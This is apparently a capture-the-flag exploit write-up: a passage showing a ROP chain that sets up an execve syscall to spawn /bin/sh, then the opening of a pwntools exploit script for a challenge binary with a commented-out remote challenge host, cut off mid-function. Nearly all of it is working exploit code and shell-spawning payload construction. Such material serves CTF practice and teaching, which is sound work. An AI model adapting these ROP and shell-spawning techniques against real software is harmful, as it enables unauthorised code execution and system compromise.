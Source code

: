 ```py
	payload += p64(mov_rdx_rdi_ret) # rdx = 0
	payload += p64(pop_rsi_ret) + p64(0) # rsi = 0
	payload += p64(pop_rdi_ret) + p64(buffer - 8)
	payload += p64(magic2) + p64(0) # rdi = [buffer] = rcx + 0xC0
	payload += p64(pop_rax_ret) + p64(59) # rax = 59
	payload += p64(syscall)
	payload += b'/bin/sh\x00' * 10
	for i in payload:
		sn(p8(i) + b'a')
	sn(b'\x00'*2)
```

--------

## exp.py

```py
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

remote_service = "cha.hackpack.club 20994"
remote_service = remote_service.strip().split(" ")
# p = remote(remote_service[0], int(remote_service[1]))
filename = "./pwn"
p = process(filename)
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)

rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
    lg("p.pid")
    input()
def sendPayload(payload):
	ru(b'program length: ')
	sl(str(len(payload)).encode())
	ru(b'program source: ')
	sn(payload)
def calcLen(payload):
	initSum = 0
	for i in payload.decode():
		if 	 i == '[' or i == ']':
			initSum += 0xa
		elif i == '+' or i == '-':
			initSum += 0x3
		elif i == '>' or i == ',':
			initSum += 0x1d
		elif i == '<':
```
